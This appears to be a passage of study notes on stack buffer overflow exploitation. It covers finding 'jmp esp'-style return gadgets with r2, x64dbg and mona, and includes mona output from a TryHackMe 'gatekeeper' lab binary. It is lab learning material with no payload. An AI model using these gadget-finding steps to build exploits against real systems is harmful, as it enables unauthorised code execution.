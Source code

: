 

Sometimes we can just put the address to the shellcode in EIP but the below method is a safer bet.

#### Finding a Return Instruction

In some cases we want to put the shellcode after the eip/address so that it will be located at the stack pointer position. In this case we can use another method to jump to the shell code:

We can set eip to point to a `jmp esp`, `call esp` or `push esp; ret` instruction/s in the actual program - not to the stack.

### Using r2

`/a` is search assembly
`/a jmp esp`
`/a call esp`
`/a push esp; ret`

### Using x64dbg

To find there instructions in the program using x64dbg we can:

Logs tab:
- `erc --moduleinfo`  list all the processes modules
- Find the ones with no protection, all false.
- The programs own files are more likely to be running on another machine, especially the main executable.

Symbols tab (Alt+E):
- Double click the module name to jump to it in the CPU tab.
- Ctrl+F to search for an instruction in the module. For example `jmp esp`.
	If we need to search for more than one instruction we use Ctrl+B and enter the hex machine code for the instructions.
	https://defuse.ca/online-x86-assembler.htm can be used to convert instructions to machine code.
- The searches will hop us to the References tab. Mouse over or double click for more into.

### Using Immunity Debugger and mona

```sh
!mona jmp -r esp -cpb "\x00<more bad chars here>"
```

Ex `!mona jmp -r esp -cpb "\x00\x0a"`

In the Log data output, we see:
```sh
0BADF00D  [+] Command used:
0BADF00D  !mona jmp -r esp -cpb "\x00\x0a"
          
          ---------- Mona command started on 2025-01-17 12:34:14 (v2.0, rev 636) ----------
0BADF00D  [+] Processing arguments and criteria
0BADF00D      - Pointer access level : X
0BADF00D      - Bad char filter will be applied to pointers : "\x00\x0a" 
0BADF00D  [+] Generating module info table, hang on...
0BADF00D      - Processing modules
0BADF00D      - Done. Let's rock 'n roll.
0BADF00D  [+] Querying 1 modules
0BADF00D      - Querying module gatekeeper.exe
0BADF00D      - Search complete, processing results
0BADF00D  [+] Preparing output file 'jmp.txt'
0BADF00D      - (Re)setting logfile c:\mona\gatekeeper\jmp.txt
0BADF00D  [+] Writing results to c:\mona\gatekeeper\jmp.txt
0BADF00D      - Number of pointers of type 'jmp esp' : 2 
0BADF00D  [+] Results : 
080414C3    0x080414c3 : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, CFG: False, OS: True, v-1.0- (C:\Users\Windows10x64VMUser\Desktop\thm-gatekeeper\gatekeeper.exe), 0x8000
080416BF    0x080416bf : jmp esp |  {PAGE_EXECUTE_READ} [gatekeeper.exe] ASLR: False, Rebase: False, SafeSEH: True, CFG: False, OS: True, v-1.0- (C:\Users\Windows10x64VMUser\Desktop\thm-gatekeeper\gatekeeper.exe), 0x8000
0BADF00D      Found a total of 2 pointers
0BADF00D  
0BADF00D  [+] This mona.py action took 0:00:05.578000
```

mona also saves a file called jmp.txt in the configured output directory containing more info.


